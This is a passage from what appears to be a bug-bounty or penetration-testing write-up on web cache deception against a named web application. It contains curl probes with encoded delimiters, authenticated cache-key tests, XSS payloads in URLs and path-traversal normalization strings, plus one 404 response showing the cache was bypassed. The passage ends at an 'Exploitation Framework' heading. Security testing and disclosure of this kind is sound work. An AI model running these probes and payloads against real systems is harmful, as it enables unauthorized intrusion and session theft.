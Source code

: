 #### **3. Encoded Delimiter Bypass**
```bash
# Test encoded delimiters
curl -I "https://app.aixblock.io/myAccount%23.css"
curl -I "https://app.aixblock.io/myAccount%24.css"
curl -I "https://app.aixblock.io/myAccount%3B.css"
```

### **Testing Results**

#### **Initial Testing Results**
```http
# Test: https://app.aixblock.io/myAccount$.css
HTTP/1.1 404 Not Found
Date: Sun, 19 Oct 2025 02:39:28 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Server: cloudflare
cf-cache-status: BYPASS
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://workflow-live.aixblock.io
```

#### **Cache Status Analysis**
- **cf-cache-status: BYPASS** indicates CloudFlare is not caching these responses
- **404 responses** suggest the endpoints don't exist
- **CORS headers present** indicate potential for cross-origin attacks

### **Advanced Testing Strategies**

#### **1. Authenticated Endpoint Testing**
```bash
# Test authenticated endpoints that might be cacheable
curl -H "Cookie: sessionid=valid_session" "https://app.aixblock.io/user/profile$.css"
curl -H "Cookie: sessionid=valid_session" "https://app.aixblock.io/dashboard$.css"
curl -H "Cookie: sessionid=valid_session" "https://app.aixblock.io/settings$.css"
```

#### **2. Cache Poisoning via XSS**
```bash
# Test XSS payloads in cache keys
curl -I "https://app.aixblock.io/<script>alert(1)</script>$.css"
curl -I "https://app.aixblock.io/';alert(1);//$.css"
```

#### **3. Normalization Testing**
```bash
# Test different normalization scenarios
curl -I "https://app.aixblock.io/myAccount$%2e%2e%2fstatic/file.css"
curl -I "https://app.aixblock.io/myAccount%23/resources/style.css"
```

## **🔧 Exploitation Framework**
